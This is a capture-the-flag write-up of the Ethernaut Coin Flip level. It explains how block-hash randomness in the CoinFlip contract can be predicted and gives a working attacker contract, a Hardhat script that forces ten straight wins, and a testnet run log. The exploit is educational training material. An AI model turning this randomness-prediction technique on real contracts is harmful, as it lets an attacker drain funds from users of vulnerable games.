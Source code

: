 ```yaml
---
title: Ethernaut #03 Coin Flip
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Coin Flip challenge writeup
---
```


## Fallback

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Background

Randomness on the chain is not easy to achieve. When using techniques that are block dependent they can be easily manipulated.

### Attack

In order to solve this challenge we need to predict the value of `side` in the `flip` function. The value of `side` depends on `FACTOR` and `blockValue`. `FACTOR` is a constant and `blockValue` is a the hash of the previous block. So we only need to find the hash of the previous block in order to attack the random side generator. So we could precalculate the value using the current block hash and pay a high enough fee to make sure we are in the next block. But this method is expensive, and likely to fail. However, there is a much more reliable solution that will work 100% of the time. We can create a contract of our own, that will call the `flip` function in the `CoinFlip` contract. This contract will have all the information that the `CoinFlip` contract has and can thus know exactly the output of the computation.

* Deploy an attacker controlled contract that can calculate the result.
* Call it until the expected number is reached

#### CoinFlipSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '../challenges/CoinFlip.sol';

contract CoinFlipSolve {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipContract;

  constructor(address _coinFlipAddress) public {
    coinFlipContract = CoinFlip(_coinFlipAddress);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    coinFlipContract.flip(side);
  }
}
```

#### coin-flip-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    coinFlipAddress = "0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1";
    contract = await ethers.getContractAt("CoinFlip", coinFlipAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    CoinFlipSolve = await ethers.getContractFactory("CoinFlipSolve");
    coinFlipSolve = await CoinFlipSolve.deploy(contract.address);
    await coinFlipSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())
    console.log("Executing Attack")

    // predict flip until consecutive wins reached
    while (await contract.consecutiveWins() < 10) {
        tx = await coinFlipSolve.connect(account).flip()
        receipt = await tx.wait()
    }

    console.log("Finished Executing Attack")
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/coin-flip-solve.js --network rinkeby
Level address   : 0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1
Consecutive Wins  : 1
Executing Attack
Finished Executing Attack
Consecutive Wins  : 10
```

### Success Message

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
